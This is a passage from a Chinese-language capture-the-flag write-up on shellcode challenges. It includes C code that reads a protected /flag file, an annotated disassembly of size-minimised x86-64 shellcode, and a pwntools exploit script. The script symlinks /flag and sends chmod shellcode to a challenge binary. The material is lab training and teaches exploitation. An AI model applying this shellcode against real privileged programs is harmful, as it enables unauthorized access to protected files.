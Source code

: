```c
#include<stdio.h>

int main(){
    char* filename = "/flag";
    int fd;
    fd = open(filename,0);
    char buffer[100];
    read(fd,buffer, 100);
    puts(buffer);
    FILE* file = fopen("/home/hacker/Shellcode/level7/flag.txt","w");
    fwrite(buffer,sizeof(char),sizeof(buffer),file);
}
```

## level8

这个题跟之前题目的不同在于，将整体shellcode的大小限制在0x12个字节以内。之前的方法不能正常适用本关卡，因为代码大小超过了要求的大小。

关于系统调用的路径问题，可以看`问题8`的讲解。

除了这个以外，在之前的关卡中，如果我想向rdi寄存器中传入某个字符串的地址，是利用`lea rid [rel filename]`进行传递的。除了这个方法，我想不到什么别的方法。

通过观察论坛才发现，可以通过先`push 1`然后`mov rdi, rsp`的方式，通过栈的特点，将栈顶指针传递给`rdi`。占用的字节数少，也能达到同样的效果。除了这种获取地址的方式，给寄存器赋值，也可以使用先`push`然后`pop`的方式，这样占用的字节数也少。你要是`mov立即数`的话，至少都五六个字节。

```asm
      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x000000002436f000 | 6a 31                                         | push 0x31
0x000000002436f002 | 48 89 e7                                      | mov rdi, rsp
0x000000002436f005 | 6a 00                                         | push 0
0x000000002436f007 | 5e                                            | pop rsi
0x000000002436f008 | 48 31 ff                                      | xor rdi, rdi
0x000000002436f00b | 6a 3b                                         | push 0x3b
0x000000002436f00d | 58                                            | pop rax
0x000000002436f00e | 0f 05                                         | syscall 
```

讲解完上面的东西以后，我们可以利用`chmod`系统调用，在当前目录创建一个指向`flag`文件的符号链接`f`，然后在当前目录下将shellcode传递给babay程序，这样`chmod`系统调用会首先补全路径--`当前目录/f`，然后修改这个符号链接所指向的源文件的权限，我们修改为读就可以了。然后通过cat读取就行了。

```python
from pwn import *
from warnings import filterwarnings
import os

filterwarnings(action='ignore', category=BytesWarning)
elf = ELF('/challenge/babyshell_level8', checksec=False)
context.binary = elf
context.log_level="INFO"

shellcode = f'''
push 0x66  /* ASCII für 'f' */
mov rdi, rsp
push 4
pop rsi
push SYS_chmod
pop rax
syscall
'''

os.system('ln -s /flag f')
p = process()
payload = asm(shellcode, arch='amd64')
p.sendlineafter("from stdin", payload)
output = p.recvall().decode('utf-8')
```